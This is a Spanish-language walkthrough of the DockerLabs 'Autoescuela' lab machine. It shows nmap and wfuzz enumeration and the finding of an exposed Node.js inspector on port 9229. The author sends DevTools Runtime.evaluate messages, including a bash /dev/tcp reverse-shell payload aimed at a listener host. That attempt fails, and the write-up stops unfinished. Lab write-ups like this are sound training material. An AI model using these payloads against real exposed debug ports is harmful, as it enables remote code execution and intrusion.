



# Autoescuela - DockerLabs

## Reconocimiento

Vamos a comenzar con un escaneo de puertos con nmap para identificar los servicios que están corriendo en la máquina objetivo.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2

PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 64
9229/tcp open  unknown    syn-ack ttl 64
```
Vemos que hay dos puertos abiertos: el puerto 8080, que está ejecutando un servicio HTTP, y el puerto 9229, que está ejecutando un servicio desconocido.
Veamos que versión corre de los puertos abiertos con nmap:

```bash
nmap -sCV -p9229,8080 172.17.0.2

PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js (Express middleware)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Autoescuela Hackcar - Inicio
9229/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, Help, Kerberos, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/html; charset=UTF-8
|_    WebSockets request was expected
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9229-TCP:V=7.95%I=7%D=6/30%Time=6A43125D%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20was\x20expecte
SF:d\r\n")%r(HTTPOptions,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent
SF:-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20w
SF:as\x20expected\r\n")%r(RTSPRequest,65,"HTTP/1\.0\x20400\x20Bad\x20Reque
SF:st\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x2
SF:0request\x20was\x20expected\r\n")%r(RPCCheck,65,"HTTP/1\.0\x20400\x20Ba
SF:d\x20Request\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWeb
SF:Sockets\x20request\x20was\x20expected\r\n")%r(DNSVersionBindReqTCP,65,"
SF:HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/html;\x20ch
SF:arset=UTF-8\r\n\r\nWebSockets\x20request\x20was\x20expected\r\n")%r(DNS
SF:StatusRequestTCP,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type
SF::\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20was\x2
SF:0expected\r\n")%r(Help,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20
SF:was\x20expected\r\n")%r(SSLSessionReq,65,"HTTP/1\.0\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets
SF:\x20request\x20was\x20expected\r\n")%r(TerminalServerCookie,65,"HTTP/1\
SF:.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/html;\x20charset=U
SF:TF-8\r\n\r\nWebSockets\x20request\x20was\x20expected\r\n")%r(TLSSession
SF:Req,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/htm
SF:l;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20was\x20expected\r\n
SF:")%r(Kerberos,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20was\x20ex
SF:pected\r\n")%r(SMBProgNeg,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\
SF:x20was\x20expected\r\n")%r(X11Probe,65,"HTTP/1\.0\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x
SF:20request\x20was\x20expected\r\n");
```

Vemos que se hace uso de proxy y que el puerto 8080 está corriendo un servicio de Node.js con Express. El puerto 9229 parece estar relacionado con WebSockets, pero no se ha identificado un servicio específico.


Nos metemos en http://172.17.0.2:8080/ y vemos lo siguiente:



Enumeremos los directorios de esta web:

```bash
wfuzz -t 200 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --hc 404 --hl 368 -u "http://172.17.0.2:8080/FUZZ"
```

En http://172.17.0.2:8080/carnets se nos redirige a http://172.17.0.2:8080/contacto siempre que le demos a Saber más en cualquier carnet




Vamos a interceptar la petición de contacto con burpsuite pero no hay nada relevante:

Al entrar en http://172.17.0.2:9229/ nos muestra este mensaje:

```
WebSockets request was expected
``` 

Lo que nos indica que el puerto 9229 está esperando una conexión WebSocket, pero no se ha establecido correctamente.

```
HTTP/1.0 400 Bad Request
Content-Type: text/html; charset=UTF-8

WebSockets request was expected
```

Por lo que vamos a intentar conectarnos a este puerto usando un cliente WebSocket. Podemos usar la herramienta `wscat` para esto:

```bash
wscat -c ws://172.17.0.2:9229
error: Unexpected server response: 400
```

Buscamos algunas rutas interesantes en el puerto 9229 con `wfuzz`:

```bash
wfuzz -t 200 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --hc 400 --hl 368 -u "http://172.17.0.2:9229/FUZZ"

000007669:   200        12 L     23 W       679 Ch      "json"                   
000014790:   200        12 L     23 W       679 Ch      "JSON"                    
```

Si vamos a http://172.17.0.2:9229/json vemos que nos devuelve un JSON con información sobre la instancia de Node.js que está corriendo en el puerto 9229:

```json
[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=172.17.0.2:9229/436e6a56-77a5-41df-b55f-a72e41b5fe6e",
  "devtoolsFrontendUrlCompat": "devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=172.17.0.2:9229/436e6a56-77a5-41df-b55f-a72e41b5fe6e",
  "faviconUrl": "https://nodejs.org/static/images/favicons/favicon.ico",
  "id": "436e6a56-77a5-41df-b55f-a72e41b5fe6e",
  "title": "/home/webuser/node_app/app.js",
  "type": "node",
  "url": "file:///home/webuser/node_app/app.js",
  "webSocketDebuggerUrl": "ws://172.17.0.2:9229/436e6a56-77a5-41df-b55f-a72e41b5fe6e"
} ]
```

Ahora sí nos podemos conectar al puerto 9229 usando `wscat` con la URL del WebSocket que nos devuelve el JSON:

```bash
wscat -c ws://172.17.0.2:9229/436e6a56-77a5-41df-b55f-a72e41b5fe6e

Connected (press CTRL+C to quit)
> 
```

Ahora podemos enviar comandos al proceso de Node.js que está corriendo en el puerto 9229. Por ejemplo, podemos ejecutar un comando para obtener información del sistema:

```json
{"id":1,"method":"Runtime.evaluate","params":{"expression":"process.platform"}}
```

Nos dice que es un sistema Linux


```json
{"id":1,"method":"Runtime.evaluate","params":{"expression":"require('child_process').exec('bash -c \"bash -i >& /dev/tcp/<TU_IP>/4444 0>&1\"')"}}

{"expression":"require('child_process').exec('bash -c \"bash -i >& /dev/tcp/192.168.0.19/443 0>&1\"')"}}

< {"id":1,"result":{"result":{"type":"object","subtype":"error","className":"ReferenceError","description":"ReferenceError: require is not defined\n    at <anonymous>:1:1","objectId":"-3611383675396349186.1.1"},"exceptionDetails":{"exceptionId":2,"text":"Uncaught","lineNumber":0,"columnNumber":0,"scriptId":"288","exception":{"type":"object","subtype":"error","className":"ReferenceError","description":"ReferenceError: require is not defined\n    at <anonymous>:1:1","objectId":"-3611383675396349186.1.2"}}}}
```

Este error nos indica que no podemos usar `require` directamente en el contexto del WebSocket, lo que significa que necesitamos encontrar otra forma de ejecutar comandos en el sistema.

## NO SE USAR EL DEBUGGER DE V8, ESPERO ESTO NO CAIGA EN LA eJPT